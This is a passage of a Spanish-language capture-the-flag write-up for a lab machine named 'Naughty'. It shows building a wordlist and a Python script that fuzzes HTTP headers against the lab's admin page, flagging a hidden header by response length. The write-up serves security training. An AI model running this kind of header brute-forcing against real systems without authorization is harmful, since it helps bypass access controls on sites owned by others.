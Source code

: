 Podemos usar expresiones regulares para meter la cadena `Naughty` antes que la palabra del diccionario

<img src="/assets/img/Otros/Naughty/dic1.png">

Ahora que vemos que el comando funciona, podemos meter todas las entradas del diccionario a un archivo

<img src="/assets/img/Otros/Naughty/dic2.png">

Podemos usar este script de python para fuzzear las cabeceras

```python
from pwn import * 
import requests

admin_url = "http://naughty.htb/admin.html"

def testHeaders():
    f = open("headers.txt", "r")

    for header in f.readlines():
        header = header.strip("\n")
        
        headers = {
            "%s" % header: "1"    
        }

        r = requests.get(admin_url, headers=headers)

        if len(r.content) != 1681:
            print("Header válida: %s" % header)
            sys.exit(0)

if __name__ == '__main__':
    testHeaders()
```

Tras esperar un poco, nos devuelve la cabecera `NaughtyAdmid`
